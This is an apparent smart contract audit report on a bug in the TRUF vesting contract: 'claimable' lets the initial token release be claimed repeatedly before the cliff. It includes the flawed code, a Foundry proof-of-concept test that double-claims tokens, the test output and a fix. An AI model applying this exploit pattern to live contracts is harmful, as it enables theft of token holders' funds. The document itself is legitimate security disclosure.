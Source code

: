 Dazzling Indigo Goblin

high

# An attacker can drain TRUF tokens after initial release period and before the cliff

## Summary
When `claim` function is called, it calculates claimable amount by calling `claimable` function.
However the function does not check if initial release is already claimed, thus including a vulnerability to repeat claiming initial release.

## Vulnerability Detail
```Solidity
uint256 totalAmount = userVesting.amount;

uint256 initialRelease = (totalAmount * info.initialReleasePct) / DENOMINATOR;

startTime += info.cliff;

if (startTime > block.timestamp) {
    return initialRelease;
}
```
After initial release and before the cliff, `claimable` function always return `initialRelease` without validating if it has already been claimed. As a result, initial percentage of tokens can be claimed multiple times.

Here's a PoC for double claiming initial release:
```Solidity
function testDrainTokensBeforeCliff() public {
    // Setup Vesting
    vm.startPrank(owner);
    trufToken.approve(address(vesting), type(uint256).max);
    vesting.setVestingCategory(type(uint256).max, "Preseed", 1_000_000e18, false); // 1M TRUF
    // 10% initial release, 1 month cliff, 24 months vesting period
    vesting.setVestingInfo(0, type(uint256).max, TrufVesting.VestingInfo(1000, 3 days, 30 days, 24 * 30 days, 30 days));
    vesting.setUserVesting(0, 0, alice, 0, 10_000e18); // 10k TRUF
    vm.stopPrank();

    // Forward time to after initialPeriod, before cliff
    vm.warp(block.timestamp + 7 days);

    // Alice claims initial release
    vm.startPrank(alice);
    vesting.claim(alice, 0, 0, 1_000e18); // 1k TRUF
    vm.stopPrank();

    assertEq(trufToken.balanceOf(alice), 1_000e18, "Alice should have 1k TRUF");

    // Alice can claim initial release again
    vm.startPrank(alice);
    vesting.claim(alice, 0, 0, 1_000e18); // 1k TRUF
    vm.stopPrank();

    assertEq(trufToken.balanceOf(alice), 2_000e18, "Alice should have 2k TRUF");
}
```

Result of running test:
```bash
Running 1 test for test/token/TrufVesting.t.sol:TrufVestingTest
[PASS] testDrainTokensBeforeCliff() (gas: 389707)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.62ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
All of TRUF tokens in the contract can be drained.

## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/37ddbb69e0c7fb6510f1ec99162fd9172ec44733/truflation-contracts/src/token/TrufVesting.sol#L164-L182

## Tool used
Manual Review, Foundry

## Recommendation
`claimable` function should validate if initial period token has already been claimed.